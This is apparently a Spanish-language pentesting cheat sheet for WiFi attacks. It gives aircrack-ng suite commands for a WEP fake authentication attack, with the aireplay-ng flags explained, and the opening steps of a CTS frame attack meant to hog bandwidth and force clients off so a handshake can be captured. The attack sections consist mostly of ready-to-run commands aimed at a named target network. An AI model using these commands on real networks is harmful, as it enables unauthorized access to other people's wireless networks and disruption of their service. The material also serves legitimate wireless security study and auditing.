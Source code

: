 4-way-handshake
https://www.youtube.com/watch?v=vHIRmG_BzQI

---

### False Authentication Attack (WEP)

````sh

## IMPORTANTE: SOLO SIRVE CON AUTENTICACIÓN WEP!!! (NO WPA/WPA2)

# 1. Monitorizar la red (ventana A)

airmon-ng check kill && airmon-ng start wlan0mon && airodump-ng wlan0mon -c 6

# 2. Hacer ataque de fake auth, esperar a que se haga un association (verificar con aumento de frames)

# -1 = Fake Auth
#  0 = De forma ilimitada la inyección de frames
# -e = SSID victima
# -a = BSSID (AP MAC)
# -h = MAC (puede ser spoofed)

aireplay-ng -1 0 -e Fz3r0_Air_PWN -a 30:45:96:D7:F2:3E -h c4:10:8a:f0:f0:f0 wlan0mon
````

---

### CTS Frame Attack

- [Fz3r0 - CTS Frame Attack](https://github.com/Fz3r0/WiFi-CTS-Frame-Attack-802.11-Frame)

````sh

## CTS = Clear To Send (Control Frames) Attack

    ## - Este ataque se basa en el secuestro de Bandwith (DataRate & Throughput) de la WLAN

    ## - El propósito es deautenticar clientes para al final capturar un handshake (similar a un deauth attack)

# INSTRUCCIONES:    

# 1. Monitorizar la red (ventana A + Save audit .cap) 

    # Ojo: no debe ser tan avanzado y auditoado realmente, solo quiero paturar el CTS, pero para tener ya toda la red para atacar desde un inicio :P (mas adelante necesito el BSS para inyectar el frame anyway)

airmon-ng check kill && airmon-ng start wlan0mon && airmon-ng check kill && airmon-ng start wlan0mon && airodump-ng -c 6 --bssid 30:45:96:D7:F2:3E --write Fz3r0_WiFi_Log wlan0

# 2. Ahora hay que crear, farmear o modificar... un Frame CTS con Duration (microsegundos) muy largo

#     - Lo extraigo de Wireshark farmeando cualquier cosa en la red o de una captura vieja 802.11

# Ejemplo: 

    # Escuchar con Wireshark y buscar CTS con:  >>> wlan.fc.type_subtype == 28 <<<

    # El lugar donde esta el duration en 802.11 frame > CTS > Flags > Duration (Hasta abajo) >>> wlan.duration <<<

````